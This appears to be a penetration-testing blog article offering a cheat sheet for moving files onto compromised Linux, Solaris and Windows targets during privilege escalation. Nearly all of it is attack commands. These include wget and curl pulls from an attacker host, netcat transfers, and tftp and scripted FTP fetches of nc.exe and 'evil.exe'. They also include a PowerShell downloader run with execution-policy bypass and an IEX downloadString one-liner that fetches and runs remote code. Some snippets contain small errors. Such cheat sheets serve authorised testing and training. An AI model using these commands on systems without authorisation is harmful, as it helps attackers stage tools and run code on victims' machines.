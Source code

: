 ```yaml
---
layout: single
title: '<span class="Articles"> Transfering data W|L - /Articles</span>'
excerpt: "while you are trying to privilage escalating you might need to know how to transfer archives or binarie "
date: 2023-04-26
header:

  teaser_home_page: true



categories:

  - article
  - web
  - files
tags:  
  - windows
  - Solaris
  - linux
toc: true
toc_label: "Content"
toc_sticky: true
show_time: true
---
```



while you are trying to privilage escalating you might need to know how to transfer archives or binaries
i recommend you to execute ```which``` before you try the following binaries in order to know ```which``` binaries are available in our machina; in the target machine 

examples

## Solaris | Linux

# Rsync

```rsync -az source destination```
# Python

```php
Python SimpleHTTPServer
```

```on Attacker```
```bash
python -m SimpleHTTPServer 80
```

```#on target```
```bash
wget <attackerip>:80/filename
```



# Apache

```on Attacker```

```bash
cp filetoYouWantsend.txt /var/www/html
service apache2 start
```

```on target```
```bash
wget http://attackerip/file
```
```bash
curl http://attackerip/file > file
```
```bash
fetch http://attackerip/file  ```on BSD```
```


# Netcat

```Listen on your own machine```
```php
nc -lvp 4444 > file
```
```send to the Target machine```
```bash

nc <kali_ip> 4444 < file
```



# Netcat + Python


```on Attacker```
```bash
python -m http.server 90
```
```on target```

```wget <attackerip>:90/filename```



# Netcat 


```Listen on your own machine```

nc -lvp 4444 > file

```on target, wait for the file```
nc -nvlp 55555 > file

```on kali, push the file```
nc $victimip 55555 < file


----------------------

## God to know Linux|Solaris:

```To send the executable file to your machine```:

```bash
base64 executable
# copy the output
# paste it in a file called file.txt
# decode it and create the executable
base64 -d file.txt > executable
```
## Windows 


# TFTP
```Windows XP and Win 2003 contain tftp client. Windows 7 do not by default```
```tfpt clients are usually non-interactive, so they could work through an obtained shell```

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



FTP (pyftpdlib client on Kali)
```Ftp is generally installed on Windows machines```

# To make it interactive, use -s option

```On Parrot install a ftp client and set a username/password```

```bash
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

```on Windows```

```bash
ftp <attackerip>
> binary
> get exploit.exe
```


# FTP (pureftpd client on parrot)

```on your own machine ```

```bash
 install ftp client

$ apt-get install pure-ftpd

 create a group

$groupadd ftpgroup

 add a user

$ useradd -g ftpgroup -d /dev/null -s /etc ftpuser

Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/zek).

$ mkdir /root/ftphome

 Create a ftp-user, in our example "zek" (again you can set "-d /root/ftphome/zek/" if you want to).

$ pure-pw useradd zek -u ftpuser -g ftpgroup -d /root/ftphome/
 Update the ftp database after adding our new user.

$ pure-pw mkdb

 change ownership of the specified ftp directory (and all it's sub-direcotries) 

$ chown -R ftpuser:ftpgroup /root/ftphome

 restart Pure-FTPD
 
$ /etc/init.d/pure-ftpd restart
```

```On Windows target machine```

```bash
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```



# Powershell
```bash 
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


# Powershell download a file
```bash
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```

